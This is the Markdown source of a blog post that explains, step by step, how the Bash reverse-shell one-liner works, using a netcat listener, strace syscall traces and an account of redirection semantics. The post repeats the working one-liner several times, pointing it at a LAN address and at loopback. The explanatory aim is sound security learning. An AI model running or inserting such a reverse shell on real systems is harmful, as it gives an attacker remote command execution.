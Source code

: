 +++
title = "One Line Reverse Shell in Bash"
slug = "reverse-shell-in-bash"
date = 2018-01-10T06:41:19Z
desc = "Figuring out how a Bash one-liner works as a reverse shell."
tags = ["security", "today-i-learned"]
+++

Yesterday I saw a message from [Bryan Brake] on one the of [BrakeSec Slack] channels:

> This is a pretty bit of bash scripting *bash -i >& /dev/tcp/192.168.8.198&#x002f;4444 0>&1*

I knew that it’s a reverse shell&#8239;---&thinsp;a tool that connects from the target computer to you (hence the ‘reverse’) and allows executing commands on that machine (‘shell’). But how does it work?

*Skip to the [Summary] if you just want the answer.*

## Setup

Bryan than mentioned that is supposed to be used in conjunction with a [netcat], which is `nc` or `ncat` depending on your version, listening on port `4444` running on the computer with <abbr>IP</abbr> `192.168.8.198`:
```
$ nc -v -n -l -p 4444
# -v — be verbose
# -n — do not try to inverse lookup IPs that connect to us
# -l — listen
# -p 4444 — port to listen on
```

I didn’t want to run my shell over the open Internet, so I replaced `192.168.8.198` with the loopback <abbr>IP</abbr> `127.0.0.1`:
```
# (1) run in the first terminal
$ nc -vnlp 4444

# (2) and then in the second
$ bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

And it works! Now let’s figure out one peace at the time, starting from `bash -i`.

## Interactive Bash

According to the [Bash] man page (`man bash`), option `-i` means that the bash is forced to start an _“interactive shell.”_ The _INVOCATION_ section explains that non-interactive shell will not execute its startup files: `/etc/profile`, `~/.profile`, `~/.bashrc`, etc. It also says that Bash starts in this interactive mode automatically when there are no non-option arguments (unless you pass a command to execute with `-c`) and when its standard input and error streams are both connected to terminals.

{{<lead>}}So why would we want an interactive shell?{{</lead>}} I think, just because it will be more like shells that we’re used to&#8239;---&thinsp;with default aliases, correctly set `PATH`, and a [prompt].

{{<lead>}}Ok, and why isn’t it interactive right away?{{</lead>}} Those angle brackets that we have in our command typically used to redirect standard streams; they probably make Bash think that it isn’t running in the terminal. Let’s look into it.

## Network Redirection

Redirection is a feature available in most of the shells that allow you to change where command’s output goes, and input comes from. For example, this will write the directory listing to the `dir.list` file:
```
$ ls -l > dir.list
```

A quick search through the good old man page reveals that `>& target` is just an alternative form of `&> target`, which in turn means `1> target 2>&1`&#8239;---&thinsp;redirect both standard output and standard error streams to the `target`.

At this point, I made a mistake thinking that `>& /dev/tcp/127.0.0.1/4444` is merely a redirect of stdout and stderr to some special file `/dev/tcp/127.0.0.1/4444` that automatically opens a <abbr>TCP</abbr> connection. Everything is a file on Linux after all, right? This can even be “confirmed” by redirecting the output of simple `echo`:
```
# (1) don’t forget to start listening,
# since nc will quit every time you disconnect;
# I’ll omit it in the following listings
$ nc -nvlp 4444

# (2) it works!
$ echo hello, world > /dev/tcp/127.0.0.1/4444
```

But then I’ve tried to do the same thing from [<abbr>ZSH</abbr>][ZSH]:
```
$ echo hello, world > /dev/tcp/127.0.0.1/4444
zsh: no such file or directory: /dev/tcp/127.0.0.1/4444
```
{{<lead>}}Why doesn't it work in <abbr>ZSH</abbr>?{{</lead>}} It turns out, it could be a special file, but I think this isn’t supported on my Debian, so Bash just emulates them, while <abbr>ZSH</abbr> does not.

Now for the most confusing part.

## Sending your stdin to stdout

That’s exactly how `0>&1` reads to me. What does it even mean?!

At first, I thought this is needed so that the server, i.e. netcat side, would see its input back. I’ve tested my idea by removing it from the command. That broke the ‘shell’ part of the reverse shell: now I could see commands and their output on the server, but couldn’t execute anything! You should play with it; it’s kind of a weird setup:
```
$ bash -i >& /dev/tcp/127.0.0.1/4444
```

At this point, I remembered about this tool `strace`, which allows you to see the kernel functions called by the program. Inspired by the example of [Julia Evans], I wasn’t afraid to try it. 😄

### Investigating with strace

I didn’t know what system call I wanted to find, so I just ran it without any filters and saved the full output to `strace.out` file:
```
$ strace -f bash -c 'bash -i /dev/tcp/127.0.0.1/4444 0>&1' > strace.out
# -f — makes strace follow the child processes created
# I wrapped my command in 'bash -c' so that redirections
# do not affect strace itself
```

Then I used `grep` to find the line with a string ‘127.0.0.1’ in it:
```
$ grep --line-number '127.0.0.1' strace.out
1:execve("/bin/bash", ["bash", "-c", "bash -i >& /dev/tcp/127.0.0.1/44"...], 0x7fff7df714d8 /* 57 vars */) = 0
200:[pid  5106] connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
```

First hit isn’t interesting, it’s just `strace` executing our command. But the second one looks promising. Here’s it with a couple more lines around:
```
199: [pid  5106] socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
200: [pid  5106] connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
201: [pid  5106] dup2(3, 1)                  = 1
202: [pid  5106] close(3)                    = 0
203: [pid  5106] dup2(1, 2)                  = 2
204: [pid  5106] dup2(1, 0)                  = 0
205: [pid  5106] fcntl(1, F_GETFD)           = 0
206: [pid  5106] execve("/bin/bash", ["bash", "-i"], 0x2485008 /* 57 vars */) = 0
```

* According to `man socket`, call to `socket()` returns a file descriptor (fd), in our case, it’s `3`. Then `connect()`, unsurprisingly, connects a socket identified by the fd to the given address. Ok, so after first two lines we have an open socket to our server.
* Again, consulting with `man` reveals that `dup2(3, 1)` on line 3 will close fd `1`, which is our stdout, and create a copy of the socket (fd `3`) on it. _“After  a  successful return, the old and new file descriptors may be used interchangeably.”_ Now we close `3` since we don’t need the original anymore. Great, so it looks like the `1> /dev/tcp/...` part is done in four syscalls.
* On line 203 `dup(1, 2)` does the same thing to our stderr: closes original and make a copy of socket to fd `2`. We’re done with the `>& /dev/tcp/...`.

Only after meditating on line 204 for a while, it clicked for me: I was completely wrong about redirections! Using them is *not* like connecting tubes, even if it typically looks that way. Both `>` and `<` are *value assignments!*

When you do `ls -l > dir.list` you are not somehow “sending” the output from `ls` to the file. You’re assigning the file `dir.list` to the standard output of `ls`.

This also explains why you can put redirections wherever you like around the command:
```
# these are the same
$ ls -l > dir.list
$ > dir.list ls -l
$ ls > dir.list -l
```
But the order of redirections relative to each other matters:
```
# stderr := stdout
# stdout := file
$ some_cmd 2>&1 1>file

# stdout := file
# stderr := stdout (== file)
$ some_cmd 1>file 2>&1
```

When you execute `0>&1`, you are assigning to stdin the stdout’s fd, which is at that point a socket. There’s almost no difference if you do it the other way around `0<&1`&#8239;---&thinsp;that’s still `stdin := stdout (== socket)`. The only difference is that `>` checks if a target is available for writing and `<` tests for reading. Our socket is bidirectional, so it passes both.

## Summary

When you execute `$ bash -i >& /dev/tcp/192.168.8.198/4444 0>&1`

* first, Bash will (somehow?) check if special files `/dev/tcp/<host>/<port>` are supported by your <abbr>OS</abbr> and if they aren’t, it will emulate them by opening a <abbr>TCP</abbr> connection to `192.168.8.198:4444` for you
* it will also _reassign_ all three standard streams&#8239;---&thinsp;stdin, stdout, and stderr&#8239;---&thinsp;to the socket with this new connection, so all the output will go into, and input will be read from this socket
* then it will start a new interactive Bash session

## Links/Resources

* man page for Bash; thanks, Brian Fox and Chet Ramey!
* [“Redirection” page][redirection] on [Bash Hackers Wiki][bash-hackers]
* man pages for the syscalls, written as part of the [Linux man-pages project][man-pages]
* Julia’s excellent [talk][julia-talk], [blog posts][julia-blog] and [zines][julia-zine] on `strace`
* to join [BrakeSec Slack], as one should, send a quick DM to [@BrakeSec]

[Bryan Brake]: https://twitter.com/bryanbrake
[Julia Evans]: https://jvns.ca/
[BrakeSec slack]: https://brakesec.slack.com
[summary]: #summary
[netcat]: http://nc110.sourceforge.net/
[Bash]: https://en.wikipedia.org/wiki/Bash_(Unix_shell)
[ZSH]: https://en.wikipedia.org/wiki/Z_shell
[prompt]: https://en.wikipedia.org/wiki/Command-line_interface#Command_prompt
[man-pages]: https://www.kernel.org/doc/man-pages/
[redirection]: http://wiki.bash-hackers.org/syntax/redirection
[bash-hackers]: http://wiki.bash-hackers.org/start
[julia-talk]: https://www.youtube.com/watch?v=HfD9IMZ9rKY
[julia-blog]: https://jvns.ca/categories/strace/
[julia-zine]: https://jvns.ca/zines/#strace-zine
[@BrakeSec]: https://twitter.com/BrakeSec
